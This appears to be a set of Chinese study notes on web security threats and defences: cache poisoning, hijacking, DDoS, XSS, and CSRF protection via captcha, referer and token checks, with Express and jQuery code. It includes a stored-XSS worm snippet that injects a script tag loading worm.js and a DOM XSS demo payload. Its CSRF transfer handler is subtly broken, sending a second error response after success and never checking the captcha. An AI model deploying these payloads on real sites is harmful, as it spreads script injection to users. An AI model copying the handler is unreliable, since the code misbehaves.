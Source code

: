 ### 1、恶意网站拦截 ###
* 浏览器周期性的从服务端获取一份最新的恶意网站黑名单，如果，用户上网时访问的网址存在于此黑名单中，浏览器会弹出一个警告页面。
* 解决办法：工信部投诉

### 2、缓存投毒 ###
* 免费的WiFi，欢迎页，偷偷请求好多网站，访问A站时，加载了b站的通用脚本jq/bs(内含恶意脚本)，由于大部分网站有缓存静态文件（jq,bootstrap）的时间较长。离开免费WiFi后，再次请求A站时候，就会触发jq中含有的恶意代码。
* 解决办法：尽量不用；清除缓存。
### 3、文件投毒 ###
* 下载非官方的插件（jq）;官方下载地址被攻击；不可信的第三方cdn资源。
* 解决办法：自己擦亮眼睛
### 4、客户端投毒 ###
* chrome 安装了恶意的插件
* 解决办法：密码防止装库，手机验证码
### 5、网页劫持 ###
* 本机的hosts文件被篡改,映射被改了、190.208.173.191 preok.com
* 公网的dns被解析到另一个恶意网站。
 * 脚本被篡改，比如jq引用其它网站的包。
* 解决办法：升级https。
### 6、DDOS攻击（distribute denial of service） ### 
 * 黑客控制大量肉鸡（别人ip，不同IP）发送非正常请求，
 * 向主机服务器频繁发送非正常请求，
 * 解决办法：没有有效的方法。1、验证码,2、限制请求频率、3、增加服务宽带（增加并发量，双11）、4、负载均衡分布式服务(不同区域不同服务器)、5、买些高仿IP（太贵）
### 7、xss+csrf 儒虫 ### 
* 儒虫 有人引爆它，让它触发，比如
    ```
    // 将一个请求接口脚本 存到服务器，
    // 比如：下边评论功能，将评论内容发到数据库，每次有人=看的时候就自动提交一次。越来越多。
    const attack = '<script src="http://localhost:3001/worm.js"></script>';
    $.post('/api/comments', { content: 'haha' + attack });
    ```
### 8、HTTP劫持 ###
* 客户端与服务器二者建立了通道，中间被劫持，也可能是运营商加个广告、
* 解决办法：https

### 9、自身安全漏洞问题 ###    
    
* 1、跨站脚本攻击（XSS）
    * 含义：cross site script,避免和css重复、所以叫 ‘XSS’,往网页里注入恶意的脚本代码，当用户访包含恶意脚本的代码时候，通过恶意脚本，黑客可以获取和控制用户信息。
    * 反射型（发给服务器返回）：引导用户点击链接，
        * 解决办法：httpOnly浏览器禁止页面的js访问带有HttpOnly属性的Cookie；谷歌浏览器做了大部分拦截；需要encodeURI和encodeURIComponent联合使用。
    * 存储型：恶意的脚本存储到服务器。
        * 解决办法：输入检测（过滤js脚本），输出检测（编码火转移）;需要encodeURI和encodeURIComponent联合使用;[html转义](http://www.w3school.com.cn/html/html_entities.asp);js转义（“e” 编码为“\145”），前端展示用函数（类库）转义下。
    * DOM-Based型XSS。不需要服务端参与，是由于DOM结构修改导致的，基于浏览器DOM解析的攻击。
    浏览器在DOM解析的时候直接使用恶意数据，常见的触发场景就是在修改innerHTML outerHTML document.write的时候。
       * 解决办法，过滤输入
       
    ```
        DOM-Based
        <body>
        <h1>输入链接地址，然后点击按钮</h1>
        <div id="content"></div>
        <input type="text" id="link">
        <button onclick="setup()">设置</button>
        <script src="https://cdn.bootcss.com/jquery/3.3.1/jquery.js"></script>
        <script>
            function setup() {
                // " onclick=alert(1) //
                let html = `<a href="${$('#link').val()}">点我</a>`;
                $('#content').html(html);
            }
        </script>
        </body>
    ```
    
    * payload XSS。窃取用户的Cookie，识别浏览器，钓鱼链接让用户访问假冒网站。
* 2、跨站请求伪造CSRF（Cross-site request forgery） 
    * 含义：跨站点请求伪造。  用户A登录银行网站，登录成功后会设置cookie，黑客诱导用户A登录到黑客的站点，然后会返回一个页面 ，用户访问这个页面时，这个页面会伪造一个转账请求到银行网站。
    * 解决办法1 验证码（影响用户体验） 类库（svgCaptcha），刷新的时候后端生成验证码发送给前端，前端保存到session（或者仅仅显示）中，请求的时候带过去（参数），相同服务端就返回，否则就拒绝。
    
    ```
    <div class="form-group">
        <label for="captcha" id="captcha"></label>
        <input id="captcha" class="form-control" placeholder="请输入验证码">
    </div>
    
    
     $.get('/api/captcha').then(data => {
        if (data.code == 0) {
            $('#captcha').html(data.captcha);
        } else {
            alert('用户未登录');
            location.href = '/login.html';
        }
    });
        var svgCaptcha = require('svg-captcha');
    app.get('/api/captcha', function (req, res) {
        let session = userSessions[req.cookies.sessionId];
        if (session) {
            var codeConfig = {
                size: 5,// 验证码长度
                ignoreChars: '0o1i', // 验证码字符中排除 0o1i
                noise: 2, // 干扰线条的数量
                height: 44
            }
            var captcha = svgCaptcha.create(codeConfig);
            session.captcha = captcha.text.toLowerCase(); //存session用于验证接口获取文字码
            res.send({ code: 0, captcha: captcha.data });
        } else {
            res.json({ code: 1, data: '没有该用户' });
        }
    });
    
    ```
    
    * 解决办法2、refer验证（不可靠）
    
     ```
      let referer = req.headers['referer'];
        if (/^https?:\/\/localhost:3000/.test(referer)) {
    
        } else {
            res.json({ code: 1, error: 'referer不正确' });
        }
     ```
     * 解决办法3 token验证（推荐）服务端生成token传给浏览器，交互的时候，判断是否相同。token有很多种生成方式，比如cookie或者sessionId,规则前后端双方约定好。 不容易被伪造，一次性的，
     
     ```
     function getClientToken() {
            let result = document.cookie.match(/token=([^;]+)/);
            return result ? result[1] : '';
        }
    function transfer(event) {
                event.preventDefault();
                let target = $('#target').val();
                let amount = $('#amount').val();
                let captcha = $('#captcha').val();
                $.post('/api/transfer', {
                    target,
                    amount,
                    captcha,
                    clientToken: getClientToken()
                }).then(data => {
                    if (data.code == 0) {
                        alert('转账成功');
                        location.reload();
                    } else {
                        alert('用户未登录');
                        location.href = '/login.html';
                    }
                });
    }
         app.post('/api/transfer', function (req, res) {
        // let referer = req.headers['referer'];
        //if (/^https?:\/\/localhost:3000/.test(referer)) {
        let { target, amount, clientToken, captcha } = req.body;
        amount = isNaN(amount) ? 0 : Number(amount);
        let { username, token } = userSessions[req.cookies.sessionId];
        if (username) {
            if (clientToken == token) {
                let user;
                for (let i = 0; i < users.length; i++) {
                    if (username == users[i].username) {
                        users[i].money -= amount;
                    } else if (target == users[i].username) {
                        users[i].money += amount;
                    }
                }
                res.json({ code: 0 });
            } else {
                res.json({ code: 1, error: '违法操作' });
            }
        } else {
            res.json({ code: 1, error: '用户没有登录' });
        }
        //} else {
        res.json({ code: 1, error: 'referer不正确' });
        //}
    })
     ```
 
